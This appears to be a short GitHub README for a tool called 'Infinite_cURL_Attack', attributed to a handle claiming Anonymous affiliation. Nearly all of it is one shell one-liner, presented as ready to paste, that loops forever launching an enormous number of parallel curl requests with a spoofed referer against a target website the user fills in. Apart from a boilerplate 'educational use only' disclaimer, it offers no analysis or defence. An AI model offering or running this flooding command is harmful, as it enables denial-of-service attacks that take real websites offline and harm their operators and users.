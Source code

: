<img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replay **https://Your.Target.Website.com** with your target website) in the Terminal/CMD & press Enter.
```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
